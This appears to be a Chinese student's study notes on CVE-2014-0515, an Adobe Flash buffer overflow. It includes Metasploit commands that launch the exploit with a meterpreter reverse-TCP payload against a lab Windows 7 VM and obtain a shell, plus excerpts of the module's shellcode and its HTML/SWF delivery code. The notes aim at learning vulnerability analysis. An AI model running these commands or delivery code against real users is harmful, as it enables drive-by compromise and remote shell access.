 # CVE 2014-0515 渣渣摸索笔记

## 主要报告
[CVE 通用漏洞与披露](http://www.scap.org.cn/CVE-2014-0515.html)<br>
[CVE 官网](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0515)<br>
[类似漏洞概况](http://www.cvedetails.com/cve/CVE-2014-0515/)<br>

## 概况
Buffer overflow in Adobe Flash Player before 11.7.700.279 and 11.8.x through 13.0.x before 13.0.0.206 on Windows and OS X, and before 11.2.202.356 on Linux, allows remote attackers to execute arbitrary code via unspecified vectors, as exploited in the wild in April 2014.<br>


## 演示验证
[Japanese youtube](https://www.youtube.com/watch?v=mNApA4ubsbo)<br>
https://www.rapid7.com/db/modules/exploit/multi/browser/adobe_flash_pixel_bender_bof

### shell
一番折腾之后选择了win7 sp1 32bit进行msf测试。<br>
kali linux进行测试验证，插件是flash_player_activex_13.0.0.182<br>
```
msf > use exploit/multi/browser/adobe_flash_pixel_bender_bof
msf exploit(adobe_flash_pixel_bender_bof) > set SRVHOST 192.168.50.132
msf exploit(adobe_flash_pixel_bender_bof) > set LHOST 192.168.50.132
msf exploit(adobe_flash_pixel_bender_bof) > set SRVPORT 80
msf exploit(adobe_flash_pixel_bender_bof) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(adobe_flash_pixel_bender_bof) > set SRVPATH /
msf exploit(adobe_flash_pixel_bender_bof) > exploit
```
其中192.168.50.132是本本机端口<br>
最后 生成 http://192.168.50.132:8080/S40YtnhUGivc9<br>
ie中输入这个网站，sessions -i 1 拿shell<br>
就渗透进去了(用来钓鱼那真是。。。)<br>

## 向大佬询问方法
- 大佬1:方法两种：模糊测试和人肉，如果有poc会简单一点，poc相当于直接告诉你漏洞点
- 大佬2:有poc,从poc入手，提取精简poc，adobe flash 如果找到这个漏洞的源码，将其反编译，分析会更容易一些，后来实践中发现,即as3的源码，由swf反编译而来
- 大佬3：现在以fuzz找uaf漏洞为主，本科生基础薄弱，建议从网络服务漏洞入手，熟悉漏洞类型和利用方法，掌握工具使用，最好能找到做这方面的大牛，请教一二。
- 大佬4：搞清楚基础的action script漏洞，uaf漏洞，heap spraying，动手调试，先从几个最经典的漏洞分析入手，动手调试，可能遇到不熟悉的组建，函数，对象是比较大的难题，还是和做pwn题一样，多调试多做。


## 找资料&分析poc
poc采用ruby语言，采用msf框架<br>
为了看懂，还是要稍微看下[msf开发](https://www.offensive-security.com/metasploit-unleashed/)<br>
### 报告阅读(太概括了)
- [heap spraying](https://securelist.com/blog/incidents/59399/new-flash-player-0-day-cve-2014-0515-used-in-watering-hole-attacks/
    提到 movie.swf 和 include.swf 这两个exp样本，两个是在shellcode方面不同，其他类似<br>
    - 准备
        使用heap spray(简单的来说就是在堆栈上覆盖一大片的空指令如NOP)<br>
    - exploit
        1. 采用VirtualProtect改写段的读写权限<br>
        2. VirtualAlloc分配空间并把第二段shellcode拷贝到里面<br>
        3. 是搜索库函数，但是延迟大<br>
           另外一种是到了这里就查找flash10p.ocx的base address，但是需要Adobe Flash Player ActiveX and Cisco MPE才行，但是文中交待并没有明确的payload来分析，因为没有进行重放(为啥)
    - summary<br>
        We detect such exploits by AEP technology as PDM:Exploit.Win32.Generic and by heuristics as HEUR:Exploit.SWF.CVE-2014-0515.gen
    - got<br>
        无

- https://vuldb.com/?id.13085 none
- [较为详细的概括](http://cwe.mitre.org/data/definitions/119.html)

### day1 真是什么都没有摸索到

## 摸索

### 抓包
这个真是。。。抓了一个晚上包，找到swf，然后各种工具配置分析格式。。。。

### 分析msf
#### 初始化
```
'Space' => 2000,
'DisableNops' => true,
'PrependEncoder' => stack_adjust

def stack_adjust
    adjust = "\x64\xa1\x18\x00\x00\x00"  # mov eax, fs:[0x18] # get teb
    adjust << "\x83\xC0\x08"             # add eax, byte 8 # get pointer to stacklimit
    adjust << "\x8b\x20"                 # mov esp, [eax] # put esp at stacklimit
    adjust << "\x81\xC4\x30\xF8\xFF\xFF" # add esp, -2000 # plus a little offset
    adjust
end
```
这里主要配置了payload的一些格式，去除了NOP指令，而采用 stack_adjust 来填充<br>
>Thread Environment Block (TEB)<br>
>由TEB结构/*0x008*/ PVOID ImageBaseAddress;<br>
具体参考http://securityblog.gr/3208/access-x86-tebpeb-with-c-and-assembly/<br>
接下来on_request_exploit 就是主要的了，等待访问网页，然后发送已经构造好的.swf和html<br>
html主要用来触发网页请求获取swf。<br>

### 构造html和发送swf
```
def exploit_template(cli, target_info)
    swf_random = "#{rand_text_alpha(4 + rand(3))}.swf"
    flash_payload = ""
    get_payload(cli,target_info).unpack("V*").each do |i|
      flash_payload << "0x#{i.to_s(16)},"
    end
    flash_payload.gsub!(/,$/, "")


    html_template = %Q|<html>
    <body>
    <object classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab" width="1" height="1" />
    <param name="movie" value="<%=swf_random%>" />
    <param name="allowScriptAccess" value="always" />
    <param name="FlashVars" value="sh=<%=flash_payload%>" />
    <param name="Play" value="true" />
    </object>
    </body>
    </html>
    |
    return html_template, binding()
end
```
这个就是构造html
```
if request.uri =~ /\.swf$/
    print_status("Sending SWF...")
    send_response(cli, @swf, {'Content-Type'=>'application/x-shockwave-flash', 'Pragma' => 'no-cache'})
    return
end
```
这个就是发生构造的swf payload<br>
其中也看出了利用的swf是在/usr/share/metasploit-framework/data/exploits/之中(kali linux中)<br>

### Summary of day2
漏洞依旧没有进展，不过学习了很多，下一步仔细分析swf文件，这个msf shellcode里感觉好像找不到明显的漏洞点..完全没有经验的来搞真是曲折啊。。看来是要速看点flash漏洞分析的了。。<br>

## 重大发现(伪)
[二进制漏洞资料收集汇总](http://www.netfairy.net/?post=196)<br>
[Flash Vector漏洞利用的蜕变](http://www.cnetsec.com/article/14571.html)<br>

## 实际swf逆向分析
参考：https://community.hpe.com/t5/Security-Research/Technical-Analysis-of-CVE-2014-0515-Adobe-Flash-Player-Exploit/ba-p/6482744#.WBG4Y_p942w<br>

## Reference
  http://cvedetails.com/cve/2014-0515/
  http://www.securityfocus.com/bid/67092
  http://helpx.adobe.com/security/products/flash-player/apsb14-13.html
  http://www.securelist.com/en/blog/8212/New_Flash_Player_0_day_CVE_2014_0515_used_in_watering_hole_attacks
  http://blog.trendmicro.com/trendlabs-security-intelligence/analyzing-cve-2014-0515-the-recent-flash-zero-day/



